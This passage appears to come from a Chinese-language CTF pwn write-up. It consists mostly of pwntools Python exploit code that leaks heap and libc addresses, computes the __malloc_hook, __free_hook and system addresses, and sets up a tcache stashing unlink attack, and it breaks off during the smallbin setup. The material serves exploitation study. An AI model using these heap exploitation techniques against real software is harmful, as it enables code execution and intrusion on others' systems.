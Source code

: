    ```python
   for i in range(0,7):
       add(0,b"a"*0x87)
       free(0)
   show(0)
   # 获取堆的基地址
   p.recvuntil(b"hero name: ")
   heap_base = u64(p.recv(6).ljust(8,b"\x00"))&0xfffffffff000
   success("heap_base==>"+hex(heap_base))
   
   add(0,b"a"*0x87)
   add(1,b"flag"+b"\x00"*(0x87-4))
   free(0)
   show(0)
   #泄漏main_arena中的地址
   p.recv()
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = addr-(main_arena_offset+0x60)
   success("libc_addr==>"+hex(libc_base))
    
   #计算__free_hook和system地址
   malloc_hook_addr = libc_base+libc.sym["__malloc_hook"]
   success("malloc_hook_addr==>"+hex(malloc_hook_addr))
   system_addr = libc_base+libc.sym["system"]
   free_hook_addr = libc_base+libc.sym["__free_hook"]
   success("system_addr==>"+hex(system_addr))
   success("free_hook_addr==>"+hex(free_hook_addr))
   ```

2. 利用tcache stashing unlink attack，修改tcahe中0x220bin的数量：

   ```python
   add(0,b"a"*0x217)
   for i in range(2):
       free(0)
       edit(0,p64(0)*2)
   edit(0,p64(malloc_hook_addr))
   #进行tcache stashing unlink attack
   
   add(0,b"a"*0xf0)
   for i in range(6):  #留一个空间进行
       free(0)
       edit(0,p64(0)*2)
   
   # 构造small bin
   add(0,b"a"*0x400)
   for i in range(7):
       free(0)
       edit(0,p64(0)*2)
   # 生成两个0x100的smallbin
   add(0,b"a"*0x400)   #smallbin1 0x100
   add(1,b"a"*0x400)
   free(0)
   add(0,b"a"*0x300)
   add(1,b"a"*0x300)  
   
   add(1,b"a"*0x400)   #smallbin2 0x100
   add(2,b"a"*0x400)
   free(1)
   add(2,b"a"*0x300)
   add(2,b"a"*0x300)   
   
   ```